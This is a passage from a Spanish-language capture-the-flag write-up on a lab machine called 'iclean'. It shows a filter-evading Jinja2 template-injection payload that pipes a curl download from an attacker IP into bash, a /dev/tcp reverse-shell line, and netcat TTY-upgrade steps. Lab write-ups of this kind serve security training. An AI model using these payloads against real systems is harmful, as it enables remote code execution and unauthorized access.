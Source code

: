 Por lo tanto procedo a enviarme una reverse shell, lo consigo realizando varias pruebas, hasta vi que con curl funcionaba por lo cual creo un archivo llamado shell, con el cual me envia un reverse shell por el puerto 443, y haciendo una peticion a mi servidor obtengo una revershell
```js
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('curl+10.10.16.51/shell|+bash')|attr('read')()}}
```
Contenido del archivo
```bash
bash -i >& /dev/tcp/10.10.16.51 0>&1
```
![Shell](../assets/images-Iclean/Iclean15.png)

![Shell2](../assets/images-Iclean/Iclean16.png)

Ahora toca hacer un tratamiento de la TTY para tener una consola totalmente interactiva
```bash
www-data@iclean:/opt/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
This account is currently not available.
Script done.
www-data@iclean:/opt/app$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```
